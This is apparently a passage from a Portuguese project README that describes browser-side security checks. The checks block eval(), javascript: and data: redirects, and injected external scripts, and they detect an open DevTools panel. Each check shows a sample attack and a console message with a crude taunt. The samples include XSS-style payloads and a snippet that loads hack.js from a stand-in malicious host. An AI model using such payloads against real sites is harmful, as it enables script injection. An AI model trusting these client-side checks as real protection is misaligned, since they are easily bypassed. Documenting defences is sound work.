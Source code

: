**Proteção:** Dados sensíveis NÃO podem ser armazenados!

---

### ⚡ 4. eval() e Function() Bloqueados

```javascript
// Tentativa de executar código dinâmico
eval('alert("hack")')
new Function('alert("hack")')

// Resultado em PRODUÇÃO:
🚨 eval() bloqueado em produção!
🛡️ Chupa seu corno aqui é VIBE CODING 🚀
// Lança erro!
```

**Proteção:** Execução de código dinâmico BLOQUEADA!

---

### 🌐 5. Redirecionamento Malicioso Bloqueado

```javascript
// Tentativa de redirecionamento malicioso
window.location = 'javascript:alert("hack")'
window.location = 'data:text/html,<script>alert("hack")</script>'

// Resultado:
🚨 Tentativa de redirecionamento malicioso bloqueada!
🛡️ Chupa seu corno aqui é VIBE CODING 🚀
// Bloqueado!
```

**Proteção:** URLs maliciosas são bloqueadas!

---

### 🕵️ 6. Debugger Detectado

```javascript
// Quando alguém abre o DevTools
🚨 Debugger detectado!
🛡️ Chupa seu corno aqui é VIBE CODING 🚀
```

**Proteção:** Sistema detecta quando DevTools está aberto!

---

### 📜 7. Scripts Externos Bloqueados

```javascript
// Tentativa de injetar script externo
const script = document.createElement('script')
script.src = 'https://site-malicioso.com/hack.js'
document.body.appendChild(script)

// Resultado:
🚨 Script externo detectado!
🛡️ Chupa seu corno aqui é VIBE CODING 🚀
Script bloqueado: https://site-malicioso.com/hack.js
// Script removido automaticamente!
```
